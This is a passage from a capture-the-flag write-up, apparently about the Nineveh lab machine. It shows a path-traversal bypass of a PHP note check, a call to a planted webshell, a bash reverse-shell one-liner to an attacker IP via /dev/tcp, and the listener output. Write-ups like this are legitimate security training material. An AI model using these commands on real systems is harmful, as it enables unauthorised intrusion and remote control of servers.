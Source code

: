 It took a minute to realize, but it seems to be checking that the phrase
`ninevehNotes` is in the parameter, or it just displays "No Note is
selected.". But there are ways to get around that, either by just
removing the extension and going up directories, or starting at `/` and
then going into a non-existent folder `ninevehNotes` and immediately
back out with `../`. The system is nice enough to cancel those two out,
while allowing PHP to pass the string check.

### RCE

Now I can access the webshell I left earlier at
`http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../var/tmp/0xdf.php&cmd=id`

![](/img/image-20200411065028130.png)

### Shell

To get a shell, I'll just change the `cmd` to
`bash -c 'bash -i >%26 /dev/tcp/10.10.14.24/443 0>%261'` (it's important
to url encode the `&` or they will be interpreted as starting a new
parameter). I get a shell in `nc`:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.43.
    Ncat: Connection from 10.10.10.43:40460.
    bash: cannot set terminal process group (1387): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@nineveh:/var/www.md/department$ 



Python2 isn't on Nineveh, but Python3 is:



    www-data@nineveh:/var/www.md/department$ python -c 'import pty;pty.spawn("bash")'
    The program 'python' can be found in the following packages:
     * python-minimal
     * python3
    Ask your administrator to install one of them
    www-data@nineveh:/var/www.md/department$ python3 -c 'import pty;pty.spawn("bash")'



I'll Ctrl-z, `stty raw -echo`, `fg`, `reset` to get a fully functional
shell.
